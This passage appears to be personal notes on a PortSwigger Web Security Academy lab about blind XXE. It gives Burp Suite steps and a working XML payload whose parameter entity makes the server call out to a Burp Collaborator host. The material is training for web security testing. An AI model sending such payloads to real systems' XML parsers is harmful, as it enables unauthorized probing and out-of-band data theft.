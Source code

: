 ```bash

Go to: Burp Collaborator client
Click "Poll now"

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516204734.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516204759.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516204823.png)

### Blind XXE with out-of-band interaction via XML parameter entities
```bash

#### This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

#### To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Go to: "View details"
Intercept is on
Click "Check stock"
Send to repeater
Intercept is off
Go to: Burp -> Burp Collaborator client -> Copy to clipboard
Change:

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>1</productId>
<storeId>1</storeId></stockCheck>

To

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://cfv2hlc98tkddymo4c3pz6pi79d01p.oastify.com"> %xxe; ]>
<stockCheck>1<productId>1</productId>
<storeId>1</storeId></stockCheck>

Go to: Burp Collaborator client
Click "Poll now"

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516213449.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516213521.png)
